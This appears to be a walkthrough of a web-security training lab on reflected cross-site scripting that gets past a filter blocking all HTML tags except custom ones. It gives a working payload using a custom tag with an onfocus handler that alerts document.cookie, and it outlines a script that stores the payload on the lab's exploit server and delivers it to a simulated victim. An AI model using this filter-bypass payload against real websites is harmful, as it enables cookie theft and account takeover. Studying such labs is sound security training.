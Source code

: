 ### Lab: Reflected XSS into HTML context with all tags blocked except custom ones

This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts _document.cookie_.

_____

Analysis and Exploit:

1. Try to send ```<img>``` tag returns the message error "Tag is not allowed"
    - send request to **[BURP-REPEATER]**

2. Repeat via **[BURP-REPEATER]** using tag ```xss```
    - /?search=%3Cxss%3EHERE%3C%2Fxss%3E
    - ```<xss>HERE</xss>``` is in the response

3. Store the following payload onto the exploit server and have it delivered to the victim ```<script>location = '[url1]/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';</script>```
    - Create a custom ID
    - Set condition to trigger 'alert(document.cookie)' when the id x gets focus
    - Get focus for id x calling **#x**

_____

Script:

1. Take two URLs
    - if the number of arguments is != (self, arg1, arg2), print usage instructions

2. Store payload onto the exploit server (arg2) | POST **/** | params: urlIsHttps, reponseFile, responseHead, responseBody, formAction
    - urlisHttps: on
    - responseFile: /xss
    - responseHead: 'HTTP/1.1 200 OK Content-Type: text/html; charset=utf-8'
    - responseBody: payload
    - formAction: STORE

payload = ```<script>location = '[url1]/?search=<xss id=x onfocus=alert(document.cookie) tabindex=1>#x';</script>```

3. Deliver payload to the victim | GET **/deliver-to-victim**

4. Check if exploit was successful | GET (url1) **/**
    - if "Congratulations, you solved the lab!" in response: exploit worked!


